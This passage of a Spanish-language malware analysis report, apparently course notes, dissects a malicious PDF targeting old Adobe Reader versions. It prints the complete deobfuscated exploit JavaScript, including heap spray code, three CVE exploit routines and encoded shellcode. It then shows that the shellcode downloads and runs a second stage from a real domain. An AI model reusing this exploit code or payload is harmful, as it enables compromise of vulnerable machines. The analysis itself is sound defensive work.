- El código está ofuscado con `String.fromCharCode(...)`.
- Usa doble `eval(eval(...))`.
- Dentro aparecen cadenas `%uXXXX`, típicas de shellcode codificado para exploits PDF antiguos.
- También se observa `unescape(...)`, que se usa para reconstruir shellcode en memoria.


# **6. Desofuscar JavaScript**
**Usaremos este script para extraer y decodificar el contenido del fichero `object_13.js`:**
```
python3 - << 'PY'
import re
from pathlib import Path

path = Path("object_13.js")
data = path.read_text(errors="ignore")

# Normalizar la ofuscación:
# 'Stri'+n+'ng.fr'+n+'omCharC'+n+'ode(...) -> 'String.fromCharCode(...)
normalized = data.replace("'+n+'", "")

needle = "String.fromCharCode("
idx = normalized.find(needle)

if idx == -1:
    print("[-] No se encontró String.fromCharCode tras normalizar")
    print("[*] Primeros 500 caracteres del archivo:")
    print(data[:500])
    raise SystemExit

start = idx + len(needle)
end = normalized.find(")", start)

if end == -1:
    print("[-] No se encontró cierre de String.fromCharCode")
    raise SystemExit

args = normalized[start:end]
nums = re.findall(r'\d+', args)

if not nums:
    print("[-] No se encontraron números dentro de String.fromCharCode")
    raise SystemExit

decoded = ''.join(chr(int(n)) for n in nums)

Path("object_13_decoded.js").write_text(decoded, errors="ignore")

print("[+] Decodificado correctamente: object_13_decoded.js")
print(f"[+] Cantidad de números decodificados: {len(nums)}")
print(f"[+] Tamaño del JS decodificado: {len(decoded)} caracteres")
print("\n[+] Primeros 1000 caracteres:\n")
print(decoded[:1000])
PY
```

**Obtenemos el fichero `object_13_decoded.js`:**
```
function BXcfTYewQ(){function fix_it(yarsp,len){while(yarsp.length*2<len){yarsp+=yarsp;}
yarsp=yarsp.substring(0,len/2);return yarsp;}
function util_printf(){var payload=unescape("%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u6A2F%u7675%u7469%u6365%u6E2E%u7465%u632F%u7373%u6C2F%u616F%u2E64%u6870%u3F70%u3D65%u0032");var nop=unescape("%u0A0A%u0A0A%u0A0A%u0A0A")
var heapblock=nop+payload;var bigblock=unescape("%u0A0A%u0A0A");var headersize=20;var spray=headersize+heapblock.length;while(bigblock.length<spray){bigblock+=bigblock;}
var fillblock=bigblock.substring(0,spray);var block=bigblock.substring(0,bigblock.length-spray);while(block.length+spray<0x40000){block=block+block+fillblock;}
var mem_array=new Array();for(var i=0;i<1400;i++){mem_array[i]=block+heapblock;}
var num=12999999999999999999888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888;util.printf("%45000f",num);}
function collab_email(){var shellcode=unescape("%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u6A2F%u7675%u7469%u6365%u6E2E%u7465%u632F%u7373%u6C2F%u616F%u2E64%u6870%u3F70%u3D65%u0032");var mem_array=new Array();var cc=0x0c0c0c0c;var addr=0x400000;var sc_len=shellcode.length*2;var len=addr-(sc_len+0x38);var yarsp=unescape("%u9090%u9090");yarsp=fix_it(yarsp,len);var count2=(cc-0x400000)/addr;for(var count=0;count<count2;count++){mem_array[count]=yarsp+shellcode;}
var overflow=unescape("%u0c0c%u0c0c");while(overflow.length<44952){overflow+=overflow;}
this.collabStore=Collab.collectEmailInfo({subj:"",msg:overflow});}
function collab_geticon(){if(app.doc.Collab.getIcon){var arry=new Array();var vvpethya=unescape("%uC033%u8B64%u3040%u0C78%u408B%u8B0C%u1C70%u8BAD%u0858%u09EB%u408B%u8D34%u7C40%u588B%u6A3C%u5A44%uE2D1%uE22B%uEC8B%u4FEB%u525A%uEA83%u8956%u0455%u5756%u738B%u8B3C%u3374%u0378%u56F3%u768B%u0320%u33F3%u49C9%u4150%u33AD%u36FF%uBE0F%u0314%uF238%u0874%uCFC1%u030D%u40FA%uEFEB%u3B58%u75F8%u5EE5%u468B%u0324%u66C3%u0C8B%u8B48%u1C56%uD303%u048B%u038A%u5FC3%u505E%u8DC3%u087D%u5257%u33B8%u8ACA%uE85B%uFFA2%uFFFF%uC032%uF78B%uAEF2%uB84F%u2E65%u7865%u66AB%u6698%uB0AB%u8A6C%u98E0%u6850%u6E6F%u642E%u7568%u6C72%u546D%u8EB8%u0E4E%uFFEC%u0455%u5093%uC033%u5050%u8B56%u0455%uC283%u837F%u31C2%u5052%u36B8%u2F1A%uFF70%u0455%u335B%u57FF%uB856%uFE98%u0E8A%u55FF%u5704%uEFB8%uE0CE%uFF60%u0455%u7468%u7074%u2F3A%u6A2F%u7675%u7469%u6365%u6E2E%u7465%u632F%u7373%u6C2F%u616F%u2E64%u6870%u3F70%u3D65%u0032");var hWq500CN=vvpethya.length*2;var len=0x400000-(hWq500CN+0x38);var yarsp=unescape("%u9090%u9090");yarsp=fix_it(yarsp,len);var p5AjK65f=(0x0c0c0c0c-0x400000)/0x400000;for(var vqcQD96y=0;vqcQD96y<p5AjK65f;vqcQD96y++){arry[vqcQD96y]=yarsp+vvpethya;}
var tUMhNbGw=unescape("%09");while(tUMhNbGw.length<0x4000){tUMhNbGw+=tUMhNbGw;}
tUMhNbGw="N."+tUMhNbGw;app.doc.Collab.getIcon(tUMhNbGw);}}
function pdf_start(){var version=app.viewerVersion.toString();version=version.replace(/\D/g,'');var varsion_array=new Array(version.charAt(0),version.charAt(1),version.charAt(2));if((varsion_array[0]==8)&&(varsion_array[1]==0)||(varsion_array[1]==1&&varsion_array[2]<3)){util_printf();}
if((varsion_array[0]<8)||(varsion_array[0]==8&&varsion_array[1]<2&&varsion_array[2]<2)){collab_email();}
if((varsion_array[0]<9)||(varsion_array[0]==9&&varsion_array[1]<1)){collab_geticon();}}
pdf_start();}
```

## **6.1 Análisis del contenido del fichero desofuscado**

**fix_it(yarsp, len):** Esta función agranda una cadena hasta alcanzar una longitud concreta. Se usa para preparar bloques de memoria, lo que encaja con técnicas de heap spraying.

**util_printf():** Es una rutina de explotación mediante `util.printf`. NVD documenta `CVE-2008-2992` como un desbordamiento de búfer en Adobe Acrobat/Reader 8.1.2 y anteriores explotable mediante una llamada PDF a util.printf con un argumento de formato manipulado.

**collab_email():** Aquí se prepara shellcode y un `heap spray` con `%u9090%u9090`, `0x0c0c0c0c` y bloques repetidos. Después se llama a Collab.`collectEmailInfo()` con un argumento `msg` sobredimensionado. NVD asocia `CVE-2007-5659` a múltiples desbordamientos de búfer en Adobe Reader/Acrobat 8.1.1 y anteriores mediante argumentos largos a métodos JavaScript en PDFs.

**collab_geticon():** NVD documenta `CVE-2009-0927` como un stack-based buffer overflow en Adobe Reader/Acrobat 9 antes de 9.1, 8 antes de 8.1.3 y 7 antes de 7.1.1 mediante un argumento manipulado al método getIcon de un objeto Collab.

**Shellcode e IOC de red:** El shellcode aparece repetido en las tres rutinas principales: `unescape("%uC033%u8B64...")`. Dentro de ese shellcode se observa una URL codificada en formato `%uXXXX`:
```
%u7468%u7074%u2F3A%u6A2F%u7675%u7469%u6365%u6E2E%u7465%u632F%u7373%u6C2F%u616F%u2E64%u6870%u3F70%u3D65%u0032
```
donde:
- Decodificada como little-endian, produce: `http://juvitec.net/css/load.php?e=2`.


## **6.2 IOCs observados**
| Categoría      | Indicador                            | Significado                                   |
| -------------- | ------------------------------------ | --------------------------------------------- |
| Entrada        | `BXcfTYewQ()`                        | Función ejecutada por `/OpenAction`           |
| Ofuscación     | `eval(eval(...))`                    | Doble ejecución dinámica del código           |
| Ofuscación     | `String.fromCharCode(...)`           | Reconstrucción del script desde códigos ASCII |
| Shellcode      | `unescape("%uC033...")`              | Shellcode embebido en formato Unicode escape  |
| Heap spray     | `%u9090%u9090`                       | NOP sled clásico                              |
| Heap spray     | `0x0c0c0c0c`                         | Patrón de memoria usado en explotación        |
| Heap spray     | `mem_array`, `heapblock`, `bigblock` | Arrays para preparar memoria                  |
| Exploit        | `util.printf("%45000f", num)`        | Ruta tipo CVE-2008-2992                       |
| Exploit        | `Collab.collectEmailInfo(...)`       | Ruta tipo CVE-2007-5659                       |
| Exploit        | `Collab.getIcon(...)`                | Ruta tipo CVE-2009-0927                       |
| Fingerprinting | `app.viewerVersion`                  | Selección de exploit según versión            |
| Red            | `juvitec.net`                        | Dominio del payload                           |
| Red            | `/css/load.php?e=2`                  | Ruta remota embebida en shellcode             |

##  **6.3 Conclusiones**
El JavaScript decodificado confirma que el objeto `13 0` es el payload principal de la muestra. El script implementa un exploit multi-ruta contra Adobe Reader/Acrobat, con detección de versión, heap spraying, shellcode embebido y descarga o contacto con el recurso remoto:
```
hxxp://juvitec[.]net/css/load.php?e=2
```

# **7. Extraer de shellcode**
**Vamos a extraer el shellcode `%uXXXX` del JavaScript decodificado:**
```
cat > extract_shellcodes.py << 'PY'
#!/usr/bin/env python3
import re
import hashlib
from pathlib import Path

data = Path("object_13_decoded.js").read_text(errors="ignore")

# Captura cadenas unescape("%u....%u....")
matches = re.findall(r'unescape\("((?:%u[0-9a-fA-F]{4})+)"\)', data)

if not matches:
    print("[-] No se encontraron shellcodes %uXXXX")
    raise SystemExit

seen = set()

for idx, blob in enumerate(matches):
    out = bytearray()

    for word in re.findall(r'%u([0-9a-fA-F]{4})', blob):
        value = int(word, 16)
        # JavaScript %uXXXX queda en memoria little-endian
        out += value.to_bytes(2, "little")

    sha256 = hashlib.sha256(out).hexdigest()

    if sha256 in seen:
        print(f"[*] shellcode_{idx}.bin duplicado, omitido")
        continue

    seen.add(sha256)

    filename = f"shellcode_{idx}.bin"
    Path(filename).write_bytes(out)

    print(f"[+] {filename}")
    print(f"    size:   {len(out)} bytes")
    print(f"    sha256: {sha256}")
PY

python3 extract_shellcodes.py
``` 

**Ejecutamos**:
```
python3 extract_shellcodes.py
```

Esto genera varios ficheros: `shellcode_0.bin`.

Sacar strings del shellcode:
```
for f in shellcode_*.bin; do
    echo "===== $f ====="
    file "$f"
    sha256sum "$f"
    strings -a -n 4 "$f"
done | tee shellcode_strings.txt
```

**Obtenemos los strings:**
```
===== shellcode_0.bin =====
shellcode_0.bin: data
6bee231ead43813d486879a0052dd94d1fcc3df5ca08328022b9de4c0b754fa1  shellcode_0.bin
X<jDZ
e.ex
Phon.dhurlmT
http://juvitec.net/css/load.php?e=2
===== shellcode_1.bin =====
shellcode_1.bin: ASCII text
79488488398f5f5aed236dd6e9f914599370d04dfe70fda61b8c83bf739b1088  shellcode_1.bin
===== shellcode_2.bin =====
shellcode_2.bin: ASCII text
545c38b0922de19734fbffde62792c37c2aef6a3216cfa472449173165220f7d  shellcode_2.bin
===== shellcode_4.bin =====
shellcode_4.bin: Non-ISO extended-ASCII text, with no line terminators
e61d6a793b42951d4e466a18683567c9011cd840b03559c0cc9e94c761995098  shellcode_4.bin
===== shellcode_5.bin =====
shellcode_5.bin: ASCII text, with no line terminators
009391559b2777d7003b4a8f2ac076416b66eee634361c208c85dae6d174cda0  shellcode_5.bin
``` 
donde:
- `shellcode_0.bin` parece contener el payload real. Los demás ficheros parecen ser bloques auxiliares de relleno, NOP/filler o patrones usados para heap spraying.


Esto confirma que el shellcode contiene un recurso remoto. La funcionalidad probable es descargar o contactar con un segundo payload desde esa URL.


**IOC confirmado:**
```
SHA256 shellcode_0.bin:
6bee231ead43813d486879a0052dd94d1fcc3df5ca08328022b9de4c0b754fa1

URL:
hxxp://juvitec[.]net/css/load.php?e=2

Dominio:
juvitec[.]net

Ruta:
/css/load.php?e=2
```

El resto de ficheros extraídos no muestran cadenas útiles y se interpretan como bloques auxiliares de heap spraying o relleno usados por el exploit.

Hemos este paso confirmado que:
- La cadena `%uXXXX` no es sólo texto dentro del JS, sino shellcode real convertible a binario.
- La URL está embebida dentro del payload final, no únicamente en una variable JavaScript.


# **8. Decodificación de cadenas ofuscadas usando FLOSS**
**FireEye Labs Obfuscated String Solver (FLOSS)** es una herramienta diseñada para identificar y extraer automáticamente cadenas ofuscadas de malware. Puede ayudarnos a determinar las cadenas que los autores de malware quieren ocultar de las herramientas de extracción de cadenas.

FLOSS también se puede utilizar como la utilidad de cadenas para extraer cadenas legibles (ASCII y Unicode). Para descargar FLOSS para Windows o Linux: https://github.com/fireeye/flare-floss.

**Instalamos FLOSS en un entorno virtual Python:**
```shell
sudo apt update
sudo apt install -y python3 python3-pip python3-venv

mkdir -p ~/miENV-FLOSS
cd ~/miENV-FLOSS

python3 -m venv venv-floss
source ~/miENV-FLOSS/venv-floss/bin/activate

python -m pip install --upgrade pip setuptools wheel
pip install flare-floss

floss --version
which floss
```
donde:
- Creamos un entorno virtual Python.
- Instalamos FLOSS con `pip`.
- Comprobamos que ha sido instalado correctamente.


**Ahora analizamos la muestra:** Dentro del entorno virtual Python ejecutamos:
```shell
cd ~/lugar-donde-esté-el-shellcode_o.bin
floss --format sc32 shellcode_0.bin | tee floss_shellcode_0.txt
```


**Obtenemos con FLOSS:**
```
FLARE FLOSS RESULTS (version 3.1.1)

+------------------------+------------------------------------------------------------------------------------+
| file path              | shellcode_0.bin                                                                    |
| identified language    | unknown                                                                            |
| extracted strings      |                                                                                    |
|  static strings        | 4 (56 characters)                                                                  |
|   language strings     | 0 ( 0 characters)                                                                  |
|  stack strings         | 2                                                                                  |
|  tight strings         | 0                                                                                  |
|  decoded strings       | 0                                                                                  |
+------------------------+------------------------------------------------------------------------------------+


 ────────────────────────── 
  FLOSS STATIC STRINGS (4)  
 ────────────────────────── 

+---------------------------------+
| FLOSS STATIC STRINGS: ASCII (4) |
+---------------------------------+

X<jDZ
e.ex
Phon.dhurlmT
http://juvitec.net/css/load.php?e=2


+------------------------------------+
| FLOSS STATIC STRINGS: UTF-16LE (0) |
+------------------------------------+


 ───────────────────────── 
  FLOSS STACK STRINGS (2)  
 ───────────────────────── 

urlmon.dll
De.e


 ───────────────────────── 
  FLOSS TIGHT STRINGS (0)  
 ───────────────────────── 


 ─────────────────────────── 
  FLOSS DECODED STRINGS (0)  
 ─────────────────────────── 
```
donde:
- FLOSS extrae estas cadenas ASCII:
    - X<jDZ
    - e.ex
    - Phon.dhurlmT
    - http://juvitec.net/css/load.php?e=2
- FLOSS también recupera dos cadenas construidas en pila:
    - urlmon.dll: Es una librería de Windows usada habitualmente por malware y shellcode para descargar contenido desde una URL, especialmente mediante APIs como `URLDownloadToFileA`.
    - De.e: parece un fragmento parcial, posiblemente parte de un nombre de archivo generado o de una cadena construida de forma incompleta.


El análisis con FLOSS confirma que shellcode_0.bin contiene el payload principal del exploit. No se identifican strings decodificadas adicionales, pero sí se obtiene una stack string relevante: urlmon.dll. Esta librería, combinada con la URL embebida hxxp://juvitec[.]net/css/load.php?e=2, indica que el shellcode probablemente utiliza funciones de Windows relacionadas con descarga de contenido remoto.


# **9. Desensamblamos shellcode_0.bin**
Desensamblamos `shellcode_0.bin` para confirmar qué hace exactamente el shellcode:
- Si carga urlmon.dll,
- qué API resuelve,
- si llama a URLDownloadToFileA,
- dónde guarda el payload y
- si lo ejecuta.

```
ndisasm -b 32 shellcode_0.bin | tee shellcode_0.asm
```

Obtenemos el fichero: [shellcode_0.asm](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/2-M9T2/shellcode_0.asm)


El desensamblado confirma la funcionalidad final del shellcode:
- Descarga un ejecutable desde la URL embebida.
- Lo guarda como e.exe en el directorio temporal.
- Y lo ejecuta.

## **9.1 Localización de kernel32.dll**
El shellcode comienza accediendo al PEB:
```asm
00000000  33C0              xor eax,eax
00000002  648B4030          mov eax,[fs:eax+0x30]
00000008  8B400C            mov eax,[eax+0xc]
0000000B  8B701C            mov esi,[eax+0x1c]
``` 
Esto es típico de shellcode Windows: accede al PEB para localizar módulos cargados, especialmente kernel32.dll, sin depender de imports estáticos.

## **9.2 Resolución dinámica de APIs**
Entre los offsets 0x28 y 0x76 aparece una rutina que recorre la tabla de exportaciones de un módulo y calcula hashes de nombres de funciones:
```asm
00000052  C1CF0D            ror edi,byte 0xd
00000055  03FA              add edi,edx
```
Este patrón corresponde a un resolver por hash tipo ROR13, usado para evitar almacenar nombres de APIs en claro.

Los hashes resueltos son:
| Hash         | API resuelta         | Función                     |
| ------------ | -------------------- | --------------------------- |
| `0x5b8aca33` | `GetTempPathA`       | Obtener ruta temporal       |
| `0xec0e4e8e` | `LoadLibraryA`       | Cargar DLL                  |
| `0x702f1a36` | `URLDownloadToFileA` | Descargar fichero desde URL |
| `0x0e8afe98` | `WinExec`            | Ejecutar fichero            |
| `0x60e0ceef` | `ExitThread`         | Finalizar hilo              |


## **9.3 Creación del path de destino**
El shellcode llama primero a GetTempPathA y después construye el nombre del fichero:
```asm
0000008D  B8652E6578        mov eax,0x78652e65
00000092  AB                stosd
00000095  66AB              stosw
```
Ese valor en little-endian corresponde a: `e.exe`.

Por tanto, el fichero descargado se guarda previsiblemente como: `%TEMP%\e.exe`.


## **9.4 Carga de urlmon.dll**
FLOSS ya había detectado urlmon.dll, y el desensamblado confirma que se construye en pila:
```asm
0000009D  686F6E2E64        push dword 0x642e6e6f
000000A2  6875726C6D        push dword 0x6d6c7275
000000A7  54                push esp
000000A8  B88E4E0EEC        mov eax,0xec0e4e8e
000000AD  FF5504            call dword near [ebp+0x4]
```
Esto equivale a: `LoadLibraryA("urlmon.dll");`.

## **9.5 Descarga del payload remoto**
Después prepara los argumentos para `URLDownloadToFileA`:
```asm
000000B4  50                push eax
000000B5  50                push eax
000000B6  56                push esi
...
000000C0  52                push edx
000000C1  50                push eax
000000C2  B8361A2F70        mov eax,0x702f1a36
000000C7  FF5504            call dword near [ebp+0x4]
```

La API resuelta es:
```C
URLDownloadToFileA(
    NULL,
    "http://juvitec.net/css/load.php?e=2",
    "%TEMP%\\e.exe",
    0,
    NULL
);
``` 

## **9.6 Ejecución del fichero descargado**
Tras la descarga, el shellcode llama a `WinExec`:
```asm
000000CD  57                push edi
000000CE  56                push esi
000000CF  B898FE8A0E        mov eax,0xe8afe98
000000D4  FF5504            call dword near [ebp+0x4]
```

Esto equivale a: `WinExec("%TEMP%\\e.exe", 0);`.

Después finaliza el hilo.

## **9.7 Conclusiones**
El desensamblado de shellcode_0.bin confirma que el payload implementa un downloader. Inicialmente accede al PEB mediante fs:[30h] para localizar módulos cargados y emplea una rutina de resolución dinámica de APIs basada en hashes ROR13. Mediante esta técnica resuelve GetTempPathA, LoadLibraryA, URLDownloadToFileA, WinExec y ExitThread. El shellcode obtiene la ruta temporal del sistema, construye el nombre e.exe, carga urlmon.dll y utiliza URLDownloadToFileA para descargar el recurso hxxp://juvitec[.]net/css/load.php?e=2. Posteriormente ejecuta el fichero descargado mediante WinExec y finaliza el hilo con ExitThread. Esto confirma que el PDF actúa como exploit inicial para descargar y ejecutar una segunda fase en el sistema comprometido.


-----

<div class="page"/>


# **10. Consolidación de IoCs**
| Categoría            | Indicador / Valor                                                      | Descripción                                        |
| -------------------- | ---------------------------------------------------------------------- | -------------------------------------------------- |
| Archivo PDF          | `0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753.pdf` | Muestra PDF analizada                              |
| SHA256 del PDF       | `0b3b3b22c8a6e3474150ea1cb8ab494413d3a641d475916114b8c4a94393f753`     | Hash SHA256 de la muestra                          |
| Detección AV         | `Pdf.Exploit.Agent-11679`                                              | Detección obtenida con ClamAV                      |
| Shellcode principal  | `shellcode_0.bin`                                                      | Payload extraído del JavaScript embebido           |
| SHA256 del shellcode | `6bee231ead43813d486879a0052dd94d1fcc3df5ca08328022b9de4c0b754fa1`     | Hash SHA256 del shellcode principal                |
| URL                  | `hxxp://juvitec[.]net/css/load.php?e=2`                                | URL remota embebida en el shellcode                |
| Dominio              | `juvitec[.]net`                                                        | Dominio asociado al recurso remoto                 |
| Ruta                 | `/css/load.php?e=2`                                                    | Ruta del recurso remoto                            |
| Fichero descargado   | `%TEMP%\e.exe`                                                         | Nombre y ubicación probable del payload descargado |
| Librería usada       | `urlmon.dll`                                                           | Librería utilizada para la descarga desde URL      |
| API relevante        | `GetTempPathA`                                                         | Obtiene la ruta temporal del sistema               |
| API relevante        | `LoadLibraryA`                                                         | Carga dinámicamente `urlmon.dll`                   |
| API relevante        | `URLDownloadToFileA`                                                   | Descarga el payload desde la URL remota            |
| API relevante        | `WinExec`                                                              | Ejecuta el fichero descargado                      |
| API relevante        | `ExitThread`                                                           | Finaliza el hilo de ejecución del shellcode        |


# **11. Correspondencia con MITRE ATT&CK**
| Táctica                     | Técnica MITRE ATT&CK                                    |                  ID | Evidencia en la muestra                                                              | Justificación                                                                                                                                                                                        |
| --------------------------- | ------------------------------------------------------- | ------------------: | ------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Initial Access / Execution  | User Execution: Malicious File                          |           T1204.002 | PDF malicioso que requiere apertura por parte del usuario                            | La ejecución inicial depende de que la víctima abra el fichero PDF. MITRE contempla archivos como `.pdf` dentro de esta sub-técnica. ([attack.mitre.org][1])                                         |
| Execution                   | Exploitation for Client Execution                       |               T1203 | Uso de `util.printf`, `Collab.collectEmailInfo` y `Collab.getIcon`                   | El PDF intenta explotar vulnerabilidades en Adobe Reader/Acrobat para conseguir ejecución de código en el cliente. ([attack.mitre.org][2])                                                           |
| Defense Evasion             | Obfuscated Files or Information                         |               T1027 | `eval(eval(...))`, `String.fromCharCode`, `unescape("%uXXXX")`                       | El JavaScript está ofuscado para dificultar el análisis estático y ocultar el shellcode. ([attack.mitre.org][3])                                                                                     |
| Execution                   | Command and Scripting Interpreter: JavaScript           |           T1059.007 | JavaScript embebido en el PDF mediante `/JavaScript` y `/JS`                         | La muestra usa JavaScript como lenguaje de ejecución dentro del documento PDF.                                                                                                                       |
| Defense Evasion / Execution | Deobfuscate/Decode Files or Information                 |               T1140 | Decodificación de shellcode mediante `unescape("%uXXXX")`                            | El script reconstruye datos binarios en memoria a partir de cadenas codificadas.                                                                                                                     |
| Command and Control         | Ingress Tool Transfer                                   |               T1105 | Descarga desde `hxxp://juvitec[.]net/css/load.php?e=2`                               | El shellcode descarga una segunda fase desde infraestructura externa mediante `URLDownloadToFileA`. ([attack.mitre.org][4])                                                                          |
| Execution                   | Native API                                              |               T1106 | Uso de `GetTempPathA`, `LoadLibraryA`, `URLDownloadToFileA`, `WinExec`, `ExitThread` | El shellcode resuelve y llama APIs nativas de Windows para descargar y ejecutar el payload.                                                                                                          |
| Execution                   | System Services: Service Execution / Process Execution* | T1569 / relacionado | `WinExec("%TEMP%\\e.exe")`                                                           | El shellcode ejecuta el fichero descargado. Esta correspondencia es menos directa. Ejecución mediante API de Windows en lugar de una técnica específica. |

[1]: https://attack.mitre.org/techniques/T1204/002/?utm_source=chatgpt.com "User Execution: Malicious File, Sub-technique T1204.002"
[2]: https://attack.mitre.org/techniques/T1203/?utm_source=chatgpt.com "Exploitation for Client Execution, Technique T1203"
[3]: https://attack.mitre.org/techniques/T1027/?utm_source=chatgpt.com "Obfuscated Files or Information, Technique T1027"
[4]: https://attack.mitre.org/techniques/T1105/?utm_source=chatgpt.com "Ingress Tool Transfer, Technique T1105 - Enterprise"


# **12. Conclusiones del análisis estático**
La muestra analizada corresponde a un PDF malicioso diseñado para explotar versiones vulnerables de Adobe Reader/Acrobat. El documento contiene una acción automática `/OpenAction` que ejecuta JavaScript embebido al abrirse. Dicho JavaScript se encuentra ofuscado mediante doble `eval()` y `String.fromCharCode`, y tras su desofuscación se identifican rutinas de `heap spraying` y explotación asociadas a `util.printf`, `Collab.collectEmailInfo` y `Collab.getIcon`.

El payload JavaScript contiene shellcode codificado mediante secuencias `%uXXXX`. Tras extraerlo y analizarlo estáticamente, se confirma que actúa como `downloader`: obtiene la ruta temporal del sistema, construye el fichero `%TEMP%\e.exe`, carga `urlmon.dll`, descarga una segunda fase desde `hxxp://juvitec[.]net/css/load.php?e=2` mediante `URLDownloadToFileA` y ejecuta el fichero descargado con `WinExec`.

**Por tanto, la muestra se clasifica como PDF exploit downloader, con ejecución automática de JavaScript, explotación de Adobe Reader/Acrobat vulnerable, shellcode embebido y descarga de segunda fase desde infraestructura remota.**

# **13. Análisis dinámico**
En esta muestra ya sabemos por análisis estático que el flujo esperado es:
```
PDF malicioso
 → /OpenAction
 → JavaScript
 → explotación de Adobe Reader vulnerable
 → shellcode
 → descarga desde hxxp://juvitec[.]net/css/load.php?e=2
 → guarda %TEMP%\e.exe
 → ejecuta e.exe
```

Para esta muestra, como explota vulnerabilidades antiguas, puede que en un Adobe Reader moderno no se ejecute el shellcode. Para confirmar la explotación real habría que usar una versión vulnerable de Adobe Reader/Acrobat, por ejemplo una versión antigua afectada por CVE-2007-5659, CVE-2008-2992 o CVE-2009-0927.

## **13.1 Preparación de la máquina virtual**

### **A) Modificamos el fichero hosts**
Modificamos el fichero `hosts` para forzar que el dominio `juvitec.net` resuelva hacia la IP de la máquina virtual del laboratorio. Esta modificación permite evitar conexiones hacia Internet real y preparar un entorno seguro donde capturar posibles peticiones HTTP generadas por el shellcode.

**Abrimos Símbolo del sistema como administrador y ejecutamos:**
```
notepad C:\Windows\System32\drivers\etc\hosts
```

**Añadimos:**
```
10.0.0.2 juvitec.net
```

**Vaciar caché DNS:**
```
ipconfig /flushdns
```

**hacemos ping a juvitec.net para ver si responde:**
```
ping juvitec.net
```

**Comprobamos que el servidor HTTP responde y que whireshark es capaz de capturarlo:**  
  


### **B) Instamos un Acrobat Reader vulnerable**
Para esta muestra, la opción más práctica es `Adobe Reader 9.0` para Windows, porque el shellcode tiene una rama `Collab.getIcon()` y esa vulnerabilidad afecta a `Adobe Reader/Acrobat 9` antes de `9.1`. NVD describe `CVE-2009-0927` como un `stack-based buffer overflow` en `Reader/Acrobat 9`, `8` y `7` mediante un argumento manipulado al método `getIcon` de `Collab`.

**Descargamos e instalamos Acrobat Reader 9:**
```
http://ardownload.adobe.com/pub/adobe/reader/win/9.x/9.0/enu/AdbeRdr90_en_US.exe
``` 


### **C) Process Monitor**
**Ejecutamos Process Monitor y establecemos los siguientes filtros:**
```
Process Name is AcroRd32.exe
Path contains Temp then Include
Path contains e.exe then Include
Operation is Process Create then Include
Operation is CreateFile then Include
Operation is WriteFile then Include
Operation is RegSetValue then Include
```

**Filtros recomendados para capturar por procesos hijos:**
```
Process Name is e.exe
Process Name is cmd.exe
Process Name is powershell.exe
Process Name is rundll32.exe
```

**Capturaremos:**
| Evento                    | Interpretación                        |
| ------------------------- | ------------------------------------- |
| `CreateFile %TEMP%\e.exe` | Creación del payload descargado       |
| `WriteFile %TEMP%\e.exe`  | Escritura del payload                 |
| `Process Create e.exe`    | Ejecución de segunda fase             |
| `RegSetValue`             | Posible persistencia                  |
| `TCP Connect`             | Comunicación de red                   |
| `Load Image urlmon.dll`   | Carga de librería usada para descarga |


### **D) Process Explorer**
Dejamos visible el árbol de procesos para observar si:
```
AcroRd32.exe
 └── e.exe
```
o si aparecen procesos secundarios inesperados.

### **E) Regshot**
Tomamos dos snapshot, una previa y otra posterior a la ejecución para compararlas.

### **F) Wireshark**
Iniciamos la captura de paquetes de red antes de abrir el PDF. Filtros útiles en Wireshark para captar la petición a `juvitec.net`:
```
